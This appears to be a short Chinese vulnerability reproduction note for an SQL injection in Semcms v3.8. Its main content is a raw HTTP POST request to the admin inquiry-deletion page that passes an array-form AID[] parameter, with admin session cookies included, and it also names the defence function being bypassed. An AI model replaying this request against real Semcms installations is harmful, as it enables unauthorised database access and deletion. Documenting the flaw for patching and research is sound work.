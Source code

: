 Semcms v3.8 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.8

三、复现过程
------------
![[../resource/Semcmsv3.8sql注入漏洞/media/rId25.png]]

> URL: <http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php>
Debug：Defense module is
> class.phpmailer.php and function
> inject\_check\_sql
> ![[../resource/Semcmsv3.8sql注入漏洞/media/rId26.png]]



-   POST

```{=html}
<!-- -->
```
    POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
    Host: 0-sec.org
    Content-Length: 24
    Cache-Control: max-age=0
    Origin: http://127.0.0.1
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Connection: close

    languageID=&AID%5B%5D=3

image

